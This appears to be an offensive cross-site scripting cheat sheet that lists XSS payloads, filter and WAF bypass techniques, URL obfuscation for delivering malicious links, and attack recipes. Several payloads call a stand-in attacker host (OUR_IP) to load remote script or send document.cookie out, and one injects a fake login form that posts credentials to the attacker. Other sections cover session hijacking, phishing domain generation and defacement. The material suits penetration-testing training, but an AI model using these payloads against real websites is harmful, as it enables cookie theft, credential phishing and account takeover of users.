

# Cross Site Scripting (XSS)

## **Introduction**

> Cross-Site Scripting (XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application.\
> XSS normally allows an attacker to masquerade as a victim user, carrying out any actions that the user is able to perform and accessing any of the user's data.\
> **Source:** [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

***

## **XSS Useful References**


Awesome labs to train your XSS skills:\
[https://xssy.uk/](https://xssy.uk/)


* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [https://github.com/s0md3v/AwesomeXSS?tab=readme-ov-file#awesome-bypassing](https://github.com/s0md3v/AwesomeXSS?tab=readme-ov-file#awesome-bypassing)
* [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

***

## **XSS Tools**

* [https://github.com/alessio-romano/UniXSS](https://github.com/alessio-romano/UniXSS)
* [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)
* [https://github.com/rajeshmajumdar/BruteXSS](https://github.com/rajeshmajumdar/BruteXSS)
* [https://github.com/epsylon/xsser](https://github.com/epsylon/xsser)

***

## **Basic XSS Payloads**

| Code                                                                            | Description               |
| ------------------------------------------------------------------------------- | ------------------------- |
| `<script>alert(window.origin)</script>`                                         | Basic XSS Payload         |
| `<plaintext>`                                                                   | Basic XSS Payload         |
| `<script>print()</script>`                                                      | Basic XSS Payload         |
| ``                                     | HTML-based XSS Payload    |
| `<script src="http://OUR_IP/script.js"></script>`                               | Load remote script        |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

***

## XSS Filters & WAFs Evasion

Web Application Firewalls (WAFs) inspect requests, analyse payloads, and apply predefined rule sets to identify and block any malicious traffic.

WAFs can protect web applications by leveraging various techniques such as signature-based pattern matching, behaviour analysis, and anomaly detection.

This section focuses on different methods which could help you bypassing XSS filters, whether they are in place due to the web application's implementation or due to a Web Application Firewall.\
\
If you are not sure whether the web application is protected by a WAF, some basic fingerprinting checks you can perform are the following:

* Use automated tools, such as [`wafw00f`](https://github.com/EnableSecurity/wafw00f)
* Check if there are cookie values set by the WAF\
  Example: `F5 BIG-IP ASM` releases cookies starting with `TS`
* `Server` headers or any other uncommon header
* Sometimes, the HTTP body contains some hints about the WAF in place.


Many more infos and WAF fingerprinting techniques can be found here:\
[https://github.com/0xInfection/Awesome-WAF](https://github.com/0xInfection/Awesome-WAF)


***

### Extra Hints & Tricks

* If `alert()` is filtered, a valid (and less filtered) alternative is `confirm()`
* You can close tags using `//` rather than `>`
* Sometimes, you can access DOM Objects by just specifying their name.\
  Instead of using `document.cookie` and `document.domain` you can use `cookie` and `domain` respectively.
* `http(s)://` can be shortened to `//` or `/\\` or `\\`.
* Quotes are not required as long as you are not using spaces. For example you can use `alert()</22>`

### Alternative Encodings

If your characters are being filtered, a good starting point is trying the following alternative encodings

<table data-full-width="false"><thead><tr><th width="103">Char</th><th width="121">HTML</th><th width="136">Numeric Decimal</th><th width="120">JS UniCode</th><th>Num. Hexadecimal</th><th width="108">CSS (ISO)</th><th width="111">JS (Octal)</th><th>URL</th></tr></thead><tbody><tr><td>"</td><td><code>&#x26;quot;</code></td><td><code>&#x26;#34;</code></td><td>\u0022</td><td>u+0022</td><td>\0022</td><td>\42</td><td>%22</td></tr><tr><td>#</td><td><code>&#x26;num;</code></td><td><code>&#x26;#35;</code></td><td>\u0023</td><td>u+0023</td><td>\0023</td><td>\43</td><td>%23</td></tr><tr><td>$</td><td><code>&#x26;dollar;</code></td><td><code>&#x26;#36;</code></td><td>\u0024</td><td>u+0024</td><td>\0024</td><td>\44</td><td>%24</td></tr><tr><td>%</td><td><code>&#x26;percnt;</code></td><td><code>&#x26;#37;</code></td><td>\u0025</td><td>u+0025</td><td>\0025</td><td>\45</td><td>%25</td></tr><tr><td>&#x26;</td><td><code>&#x26;amp;</code></td><td><code>&#x26;#38;</code></td><td>\u0026</td><td>u+0026</td><td>\0026</td><td>\46</td><td>%26</td></tr><tr><td>'</td><td><code>&#x26;apos;</code></td><td><code>&#x26;#39;</code></td><td>\u0027</td><td>u+0027</td><td>\0027</td><td>\47</td><td>%27</td></tr><tr><td>(</td><td><code>&#x26;lpar;</code></td><td><code>&#x26;#40;</code></td><td>\u0028</td><td>u+0028</td><td>\0028</td><td>\50</td><td>%28</td></tr><tr><td>)</td><td><code>&#x26;rpar;</code></td><td><code>&#x26;#41;</code></td><td>\u0029</td><td>u+0029</td><td>\0029</td><td>\51</td><td>%29</td></tr><tr><td>*</td><td><code>&#x26;ast;</code></td><td><code>&#x26;#42;</code></td><td>\u002a</td><td>u+002A</td><td>\002a</td><td>\52</td><td>%2A</td></tr><tr><td>+</td><td><code>&#x26;plus;</code></td><td><code>&#x26;#43;</code></td><td>\u002b</td><td>u+002B</td><td>\002b</td><td>\53</td><td>%2B</td></tr><tr><td>,</td><td><code>&#x26;comma;</code></td><td><code>&#x26;#44;</code></td><td>\u002c</td><td>u+002C</td><td>\002c</td><td>\54</td><td>%2C</td></tr><tr><td>-</td><td><code>&#x26;minus;</code></td><td><code>&#x26;#45;</code></td><td>\u002d</td><td>u+002D</td><td>\002d</td><td>\55</td><td>%2D</td></tr><tr><td>.</td><td><code>&#x26;period;</code></td><td><code>&#x26;#46;</code></td><td>\u002e</td><td>u+002E</td><td>\002e</td><td>\56</td><td>%2E</td></tr><tr><td>/</td><td><code>&#x26;sol;</code></td><td><code>&#x26;#47;</code></td><td>\u002f</td><td>u+002F</td><td>\002f</td><td>\57</td><td>%2F</td></tr><tr><td>:</td><td><code>&#x26;colon;</code></td><td><code>&#x26;#58;</code></td><td>\u003a</td><td>u+003A</td><td>\003a</td><td>\72</td><td>%3A</td></tr><tr><td>;</td><td><code>&#x26;semi;</code></td><td><code>&#x26;#59;</code></td><td>\u003b</td><td>u+003B</td><td>\003b</td><td>\73</td><td>%3B</td></tr><tr><td>&#x3C;</td><td><code>&#x26;lt;</code></td><td><code>&#x26;#60;</code></td><td>\u003c</td><td>u+003C</td><td>\003c</td><td>\74</td><td>%3C</td></tr><tr><td>=</td><td><code>&#x26;equals;</code></td><td><code>&#x26;#61;</code></td><td>\u003d</td><td>u+003D</td><td>\003d</td><td>\75</td><td>%3D</td></tr><tr><td>></td><td><code>&#x26;gt;</code></td><td><code>&#x26;#62;</code></td><td>\u003e</td><td>u+003E</td><td>\003e</td><td>\76</td><td>%3E</td></tr><tr><td>?</td><td><code>&#x26;quest;</code></td><td><code>&#x26;#63;</code></td><td>\u003f</td><td>u+003F</td><td>\003f</td><td>\77</td><td>%3F</td></tr><tr><td>@</td><td><code>&#x26;commat;</code></td><td><code>&#x26;#64;</code></td><td>\u0040</td><td>u+0040</td><td>\0040</td><td>\100</td><td>%40</td></tr><tr><td>[</td><td><code>&#x26;lsqb;</code></td><td><code>&#x26;#91;</code></td><td>\u005b</td><td>u+005B</td><td>\005b</td><td>\133</td><td>%5B</td></tr><tr><td>\</td><td><code>&#x26;bsol;</code></td><td><code>&#x26;#92;</code></td><td>\u005c</td><td>u+005C</td><td>\005c</td><td>\134</td><td>%5C</td></tr><tr><td>]</td><td><code>&#x26;rsqb;</code></td><td><code>&#x26;#93;</code></td><td>\u005d</td><td>u+005D</td><td>\005d</td><td>\135</td><td>%5D</td></tr><tr><td>^</td><td><code>&#x26;Hat;</code></td><td><code>&#x26;#94;</code></td><td>\u005e</td><td>u+005E</td><td>\005e</td><td>\136</td><td>%5E</td></tr><tr><td>_</td><td><code>&#x26;lowbar;</code></td><td><code>&#x26;#95;</code></td><td>\u005f</td><td>u+005F</td><td>\005f</td><td>\137</td><td>%5F</td></tr><tr><td>`</td><td><code>&#x26;grave;</code></td><td><code>&#x26;#96;</code></td><td>\u0060</td><td>u+0060</td><td>\0060</td><td>\u0060</td><td>%60</td></tr><tr><td>{</td><td><code>&#x26;lcub;</code></td><td><code>&#x26;#123;</code></td><td>\u007b</td><td>u+007b</td><td>\007b</td><td>\173</td><td>%7b</td></tr><tr><td>|</td><td><code>&#x26;verbar;</code></td><td><code>&#x26;#124;</code></td><td>\u007c</td><td>u+007c</td><td>\007c</td><td>\174</td><td>%7c</td></tr><tr><td>}</td><td><code>&#x26;rcub;</code></td><td><code>&#x26;#125;</code></td><td>\u007d</td><td>u+007d</td><td>\007d</td><td>\175</td><td>%7d</td></tr></tbody></table>

***

### Basic Bypasses


Whenever facing filters or blacklists on your special characters or javascript payloads, try using the following basic bypasses and alternative representations.


***

#### Alert alternatives

If `alert('xss')` or `alert(1)` are filtered, try using:

* `prompt('xss')` or `prompt(1)`
* `confirm('xss')` or `confirm(1)`
* `alert(/xss/.source)`
* `windows/alert/.source`

***

#### OnError alternatives

If `onerror=alert(1)` is filtered, try using:

* `onload=alert(1)`
* `onfocus=alert(1)` combined with `autofocus=true`
* `setTimeout(alert(1))`&#x20;
* `setInterval(alert(1))`
* `Function(alert(1))()`
* `setImmediate(alert(1))` \[notice that this only works on IE 10+]

***

#### Img tag alternatives

If an img payload such as `` is filtered, try using:

* `<svg/onload=alert(1)>`
* `<video src=x onerror=alert(1)>`
* `<audio src=x onerror=alert(1)>`

***

#### Using Base64 encoded payloads&#x20;

You can bypass many blacklist-based filters by using Base64-encoded payloads.

Generally speaking, you can generate the Base64-encoding of any payload and use it inside the `atob` JavaScript function. In particular, just use

`atob("<BASE64-PAYLOAD-ENCODING>")`

You could also use other base64 encoded payloads such as the following alternative to `javascript:alert('XSS')`: `data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

***

#### Using JavaScript Unicode Characters

Some filters can be bypassed by using the JavaScript **Unicode escape sequences** to represent any blacklisted word or character.

For example, if `alert` is blacklisted, you can use `\u0061lert`, where `\u0061` is the Unicode escape sequence for the lowercase letter `a`.

A valid payload to bypass the previous blacklist example is:  `<script>\u0061lert(document.cookie)</script>`


To represent the character ‘a’ using a Unicode escape sequence, you would use \u0061 because the Unicode code point for 'A' is 0x61 in hexadecimal.


You can use the following JavaScript code in your browser’s console to quickly gain the unicode values you need

```
let asciiStr = “a”;
let unicodeHexStr = asciiStr.split('').map(c => '\\u' + ('000' + c.charCodeAt(0).toString(16)).slice(-4)).join('');
console.log(unicodeHexStr)
```

***

### Unicode Normalization

Unicode normalization is a process that ensures different binary representations of characters are standardized to the same binary value. This process is crucial in dealing with strings in programming and data processing

Depending on how the back-end/front-end is behaving when it **receives weird unicode characters** an attacker might be able to **bypass protections and inject arbitrary characters.** Indeed, sometimes, unicode normalization even allows bypassing WAFs in place.

You can find find a great article about this topic here:\
[https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/](https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/)

Two lists of unicode normalized characters can be found at:

* [https://appcheck-ng.com/wp-content/uploads/unicode\_normalization.html](https://appcheck-ng.com/wp-content/uploads/unicode\_normalization.html)
* [https://0xacb.com/normalization\_table](https://0xacb.com/normalization\_table)


I made a tool to help converting characters to their corresponding unicode normalized value, which I suggest to anyone. You can find my helper tool to perform Unicode Normalization here: [https://github.com/alessio-romano/UniXSS](https://github.com/alessio-romano/UniXSS)


If you prefer, you can also find a list of copy-paste unicode normalized characters below:

| Character | Unicode Normalization                |
| --------- | ------------------------------------ |
| <         | %EF%BC%9C                            |
| >         | %EF%BC%9E                            |
| ≮         | <p>%e2%89%ae</p><p>&#x26;#x226e;</p> |
| ﹤         | <p>%ef%b9%a4<br>&#x26;#xfe64;</p>    |
| ＜         | <p>%ef%bc%9c<br>&#x26;#xff1c;</p>    |
| ≯         | <p>%e2%89%af<br>&#x26;#x226f;</p>    |
| ﹥         | <p>%ef%b9%a5<br>&#x26;#xfe65;</p>    |
| ＞         | <p>%ef%bc%9e<br>&#x26;#xff1e;</p>    |
| '         | %ef%bc%87                            |
| "         | %ef%bc%82                            |
| =         | %e2%81%bc                            |
| /         | %ef%bc%8f                            |

### Bypass Using JSFuck

JSFuck is an esoteric JavaScript programming language that only uses the following 6 characters to write any JavaScript code: `[]()!+`


The (very) basic idea behind JSFuck is that you can recreate all JavaScript functionalities using such a limited set of characters because JavaScript is a weakly typed programming language, meaning that it allows the evaluation of any expression as any type.\
\
If you want to know more about its inner workings, check out this [link](https://github.com/aemkei/jsfuck?tab=readme-ov-file#how-it-works).


The following represents an `alert(1)` payload written in JSFuck

```javascript
[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])()
```

<figure><figcaption><p>Triggering an alert(1) message in Firefox's console using JSFuck</p></figcaption></figure>

Link: [https://jsfuck.com/](https://jsfuck.com/)\
GitHub Repo: [https://github.com/aemkei/jsfuck](https://github.com/aemkei/jsfuck)

***

## XSS Payloads Delivery

Exploiting XSS vulnerabilities requires users to land on the vulnerable URL, meaning that you will need to use some degree of social engineering to correctly deliver the URL containing your payload.

The URL obfuscation techniques in this section can be handy in bypassing a filtered system, or to just shorten the vector to respect a length limit.

***

### URL Shortening Obfuscation

You can use known URL shorteners (or host your own) to basically hide the malicious link you are pointing to.


Since this technique has started to spread as an attack vector to send links to malicious resources, some service providers have implemented features to preview where the shortened links points.


You can use shorteners such as:

* [https://tinyurl.com/](https://tinyurl.com/)
* [https://www.shorturl.at/](https://www.shorturl.at/)
* [https://bitly.com/](https://bitly.com/)
* [https://yourls.org/](https://yourls.org/)

***

### URL UserInfo Obfuscation

UserInfo is a subcomponent used to specify the credentials to authenticate to a specified resource.\
If the resource requires no authentication, this subcomponent is ignored by both the browser and the server.


Not all browsers freely allow using the UserInfo subcomponent:

* Firefox and Opera show alert messages to notify the user.
* Google Chrome allows this behaviour silently!


The UserInfo subcomponent is normally used as follows:\
`username:password@google.com`

You can obfuscate your malicious URL by using a trusty-looking userinfo value such as `www.google.com:searchqwhatever@google.com`

Also notice that userinfo allows UniCode characters!\
An example is: `위키백과:대문:위키백과:대문@google.com`

***

### URL Alternative Representations

You can obfuscate the host subcomponent by using different alternative representations for it.\
Rather than using the standard hostname or dotted-decimal IP representations, you can use the following alternatives.


It is also possible to mix the representations below to make an hybrid.\
Also, this tool can help you generating the alternative representations quicker: http://www.silisoftware.com/tools/ipconverter.php


***

#### DWORD (Double Word)

The IP address is translated in an equivalent 16bit number.\
For example, one of Google's IP addresses (216.58.215.78) can be translated to 3627734862, meaning that it can be accessed using `http://3627734862`.

To obtain the DWORD for a target IP (192.168.1.1 in the example), use the following JavaScript oneliner in a browser

```
console.log("192.168.1.1".split('.').reduce((dword, octet) => (dword << 8) + Number(octet), 0) >>> 0);
```

***

#### OCTAL

An IP address can also be represented in Octal form by converting the IP to base8.\
The result, still using Google's IP is: `http://0330.0072.0327.0116`


We can also "feed" each number by adding leading zeroes without break the original value as follows: http://0000000330.0000000072.0000000327.000000116\
This extra case, however, does not work in Internet Explorer.


To obtain the Octal for a target IP (192.168.1.1 in the example), use the following JavaScript oneliner in a browser

```
console.log("192.168.1.1".split('.').map(octet => '0' + (+octet).toString(8)).join('.'));
```

***

#### HEXADECIMAL

An IP address can also be represented in Hexadecimal form by converting the IP to base16.\
The result, still using Google's IP is: `http://0xd83ad74e`


Each number can also be separated like this:\
`http://0xd8.0x3a.0xd7.0x4e`


To obtain the Hexadecimal for a target IP (192.168.1.1 in the example), use the following JavaScript oneliner in a browser:

```
console.log("192.168.1.1".split('.').map(octet => '0x' + (+octet).toString(16)).join('.'));
```

***

## XSS - Other Attacks


XSS attacks are not just about popping the alert message containing cookies.

This section describes some alternative attacks you can perform by exploiting XSS vulnerabilities


***

### Open Redirect to XSS

Whenever you are facing a web application which is vulnerable to Open Redirects, it might also be the case that the same vector can be used to gain XSS.

An example might be a website which allows for open redirects by leveraging a GET parameter, such as the following: `vulnerable.com/test.php?redirect_url={value}`

Instead of using the standard http or https protocols followed by your attacker website, you might insert a `javascript` payload as the `value` of the `redirect_url` parameter.\
For example, you could navigate to the following URL to pop an alert:\
`vulnerable.com/test.php?redirect_url=javascript:alert(document.domain)`

***

### **XSS Session Hijacking**

* Use the following XSS Payload: `<script src=http://OUR_IP/script.js></script>`
* On the attacker machine, write one of the following payload inside a file named `script.js`:
  1. `new Image().src='http://OUR_IP/index.php?c='+document.cookie`
  2. `document.location='http://OUR_IP/index.php?c='+document.cookie;`

***

### **XSS Phishing**

You can use wget or other tools such as [goclone](https://github.com/imthaghost/goclone) to clone a website's content.

After that, you can use tools such as `urlcrazy` to generate domain names similar to the one you are trying to target via the commandline, e.g. you can just use `urlcrazy www.example.com` to generate all the useful, similar domain names for phishing attempts

Another form of XSS phishing can be obtained by leveraging stored XSS vulnerabilities to inject a fake login form that sends the credentials to our attacker server

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

***

### **XSS Defacing**

> * Defacing means changing the website's appearance for anyone who visits the website
> * The website's appearance can be changed using injected Javascript code
> * Note: This requires a stored XSS Vulnerability

| Defacing Payload                                                                    | Description                                  |
| ----------------------------------------------------------------------------------- | -------------------------------------------- |
| `<script>document.body.style.background = "#141d2b"</script>`                       | Change website background color              |
| `<script>document.body.background = "https://example.com/images/logo.svg"</script>` | Change website background image              |
| `<script>document.title = 'New Title'</script>`                                     | Change website title                         |
| `document.getElementById("todo").innerHTML = "New Text"`                            | Change HTML element/DOM text using innerHTML |

## Miscellaneous

### Bypassing HTTPOnly - Cross Site Tracing (XST)

A Cross-Site Tracing (XST) attack involves the use of Cross-site Scripting (XSS) and the TRACE or TRACK HTTP methods.


The HTTP TRACE method allows the client to see what is being received at the other end of the request chain and use that data for testing or diagnostic information.

The TRACK method works in the same way but is specific to Microsoft’s IIS web server.


Using XST, an attacker can steal user’s cookies even if they have the “HttpOnly” flag, as the TRACE method will reflect back the input user’s request, revealing any Cookies or Authorization header.

OWASP provides several [examples](https://owasp.org/www-community/attacks/Cross\_Site\_Tracing) about this attack that you can check out.


This technique is quite old: modern browsers typically block the HTTP TRACE method inside scripting languages and libraries. The only way to effectively leverage XST is to use existing alternatives to JavaScript such as Java&#x20;

